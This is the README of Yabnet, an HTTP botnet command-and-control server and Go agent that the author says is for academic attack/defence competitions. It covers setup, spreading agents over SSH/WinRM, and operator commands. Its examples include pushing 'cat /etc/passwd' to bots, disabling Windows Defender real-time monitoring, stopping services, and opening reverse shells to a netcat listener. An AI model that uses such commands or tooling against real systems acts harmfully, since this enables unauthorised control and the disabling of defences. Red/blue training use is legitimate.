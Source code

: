 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3 Flask and is deployed in docker/docker-compose. Yabnet agent is written in Golang. Yabnet's master console is written in Python3. 

From setting up the server, compiling the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Dear Blueteamers

Yeah, you, who is stalking red teamers' repos (you should btw. Go make a script). I make all of my tools public because I believe that blue teamers learning is more important than my implants getting caught during competitions. As long as you are learning how to detect my tools, prevent them, and delete them, I'll be very happy. Please focus on learning, rather than winning competitions! (ofc win them as well) 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

-----------

## Under Construction - TODO 

**Yabnet is currently in PoC version.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [x] Clean up debugging codes in all files 
- [x] Enhance golang agent & generation of golang 
- [x] Enhance README documentation and usage
- [x] Add upload feature from master to server 
- [x] Finalize and structure all in-code comments  
- [x] Support communicating with PWNBOARD 

- [x] Stop using sqlite3 because database locking
-----------

## Installation 

**Yabnet requires python3, GOLANG, docker, and docker-compose**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

### Server configuration & setup
```

EDIT /yabnet/server/config.py first 

cd /yabnet/server
docker-compose build && docker-compose up 
```

### Master setup

Use the credential that was configured in `/yabnet/server/config.py` file.

```
cd /yabnet/master
pip3 install -r requirements.txt 

python3 master.py
Yabnet>> login -r localhost -u <user> -p <password>
``` 


### Agent setup - Golang 

**Generating Agent through master console**
```
Yabnet>> generate -i <serverip> -p <serverport>  // for linux 
Yabnet>> generate -i <serverip> -p <serverport> -w   // -w is for Windows
```


## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

Master = Python console application for interacting with the server 

**Utility scripts - WIP** 

`/yabnet/utils/deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH and pyWinRM

`/yabnet/utils/gen_ip.py` = Python script which will generate text files containing ip address of all teams' windows/linux boxes 


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1:443 -u admin -p password` | 
| generate | Compile and generate golang agent binary. Supports x64 of linux, windows | `generate -i 10.0.0.1 -p 443` | 
| list | List all currently registered bots | `list` |
| list [hostname] | List bots with privileged user with hostname across all teams | `list annebonny`
| push | Push a command to bot(s) | `push -t botid,botid -c "cat /etc/passwd"` | 
| upload | Upload local file to yabnet server's upload folder | `upload -f <local_file_location>` 
| download | Command a bot to download a file from the server | `download -t <botid> -f test.txt -d c:\users\administrator\a.txt` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botid> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots (Not Recommended) | `broadcast -c "systemctl stop ssh"` | 
| cleanup | Remove all staged commands for all bots | `cleanup` | 
| pwnboard | Start pwnboard auto-update thread | `pwnboard --start -u http://[server]:[port]/generic`
| help, ? | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 

`ex) push -t 1,2,3,4 -c "systemctl stop apache2"`

`ex) push -t 5,6,7 -c "powershell -c set-mppreference -disablerealtimemonitoring \$true"` 


2. Reverse shell command requires the master to open a new console and setup a netcat listener. 

`ex) reverse -t 11 -p 31337` 

`ex) nc -lvnp 31337         // And then wait for the reverse shell from 10.0.3.4` 

3. The server is hosting files in `<somewhere>/yabnet/server/uploads/` directory.

4. All commands have `-h` help flag available.

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
